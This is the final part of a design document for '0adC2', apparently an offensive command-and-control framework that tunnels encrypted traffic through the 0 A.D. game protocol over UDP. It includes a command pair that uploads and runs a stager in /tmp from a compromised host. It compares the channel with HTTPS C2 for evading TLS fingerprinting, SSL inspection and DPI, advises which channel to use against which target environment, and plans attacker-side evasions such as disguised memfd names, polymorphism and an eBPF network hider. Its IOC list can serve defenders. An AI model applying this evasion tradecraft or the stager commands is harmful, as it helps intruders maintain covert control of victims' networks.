> `stager_preload.c` is an illustrative example — adapt `stager.c` by wrapping its
> logic in a `__attribute__((constructor))` function and compiling with `-shared -fPIC`.

### Option D — Post-exploitation via persistence

From an already established agent:

```
0adc2> !ul ./stager_next_op /tmp/.s
0adc2> /tmp/.s
```

---

## 13. UDP/0AD vs HTTPS

### Direct comparison

| Criterion | 0adC2 UDP/0AD | Classic HTTPS C2 |
|-----------|------------------|--------------------|
| Encryption | XSalsa20-Poly1305 (application layer) | TLS 1.3 (transport) |
| TLS fingerprint | **None** — no TLS handshake | JA3/JA3S, JARM, tls-fingerprint |
| SNI / DNS | **None** — direct IP, UDP | SNI visible, passive DNS query |
| CT Logs | **None** | Certificate public in CT logs |
| SSL proxy inspection | **Impossible** (UDP ≠ proxy) | MITM Zscaler/BlueCoat/Palo Alto |
| Port | 20595 — gaming, rarely monitored | 443 — inspected by default |
| Application DPI | Rare (requires ENet/0AD-specific decoder) | Universal HTTP decoders |
| Infrastructure | Public or private 0AD server — not burnable | Domain + certificate + IP reputation |
| Beacon regularity | 200ms game + Poisson 20s KA — natural | Regular beacon — trivial to detect |
| Legitimacy baseline | Real players on the same protocol | Fresh domain = immediate suspicion |

### UDP/0AD advantages

**Zero crypto fingerprint.** JA3 is a public signature database referencing Cobalt Strike, Havoc, Sliver, Metasploit ClientHellos... 0adC2 has no TLS handshake → JA3 = N/A. JARM = N/A.

**Zero burnable infrastructure.** No domain (no passive DNS), no certificate (no CT log), no IP reputation to build. The "C2 server" is a 50 KB ENet binary. If the target is burned — nothing is lost on the infra side.

**Blind SSL proxy.** Enterprise proxies (Zscaler, BlueCoat, Palo Alto SSL Inspection) perform TLS MITM. They cannot intercept arbitrary UDP. XSalsa20-Poly1305 remains end-to-end even in environments with full HTTPS inspection.

**Existing traffic baseline.** 0AD has thousands of real players. A UDP/20595 flow in a corporate network where a developer occasionally plays is not unusual. A domain registered yesterday is immediately suspicious in threat intel.

### Limitations

**Perimeter traversal.** Port 443 is open everywhere. UDP/20595 may be blocked in highly restrictive environments (banks, industry). Evaluate for the target before deployment.

**Sender cstr length.** A legitimate 0AD UUID is 36 chars. A C2 sender containing the full base62 body can exceed 100 chars — detectable by specific DPI (Suricata rule below). Future mitigation: fragment body across multiple packets.

**No domain fronting.** An HTTPS C2 behind a CDN can hide the real destination via SNI ≠ Host. No UDP equivalent.

### Verdict by context

| Target environment | Recommended channel |
|--------------------|---------------------|
| Gaming port open, no SSL inspection | 0adC2 UDP |
| Heavily filtered (443/80 only) | HTTPS |
| Active SSL inspection (Zscaler, etc.) | 0adC2 UDP |
| Target with no 0AD baseline | HTTPS (20595 traffic too visible) |
| Target with known 0AD players | 0adC2 UDP |

---

## 14. Known Detection Surface

### Static IOCs (rotated on each build)

| IOC | Stability |
|-----|-----------|
| SHA256 hash of binaries | Null (changes on every `make fresh`) |
| Player names in traffic | Low (20 from 194 bases, mutated) |
| Pattern `[kworker/0:2]` in `/proc/PID/maps` | Medium (fixed memfd name in stager.c) |
| UDP port 20595 on non-0AD process | High (stable) |
| NMT_CHAT sender ∈ ['g'..'n'] | High (stable, defines the protocol) |
| NMT_CHAT sender length > 36 | High (base62 always longer than a UUID) |

### Attacker-side mitigations

| Detection vector | Current mitigation | Future mitigation |
|-----------------|-------------------|------------------|
| Sender length > 36 | None | Fragment body across N packets |
| First char 'g'-'n' | None (inherent to scheme) | Encode in a different field |
| memfd name `[kworker]` | Fixed in stager.c | Randomize per stager build |
| YARA opcodes .text | None | LLVM polymorphism pass |
| UDP 20595 non-0AD | eBPF network hider (requires root) | — |

---

## 15. References

- 0 A.D. network source: `https://trac.wildfiregames.com/browser/ps/trunk/source/network/`
- ENet protocol: `http://enet.bespin.org/`
- libsodium: `https://doc.libsodium.org/`
- X25519 Diffie-Hellman: RFC 7748
- XSalsa20-Poly1305 (`crypto_secretbox_easy`): NaCl/libsodium documentation
- io_uring: `https://kernel.dk/io_uring.pdf` (Jens Axboe, 2019)
- eBPF CO-RE: `https://nakryiko.com/posts/bpf-core-reference-guide/`
- JA3 fingerprinting: `https://github.com/salesforce/ja3`
- JARM: `https://github.com/salesforce/jarm`
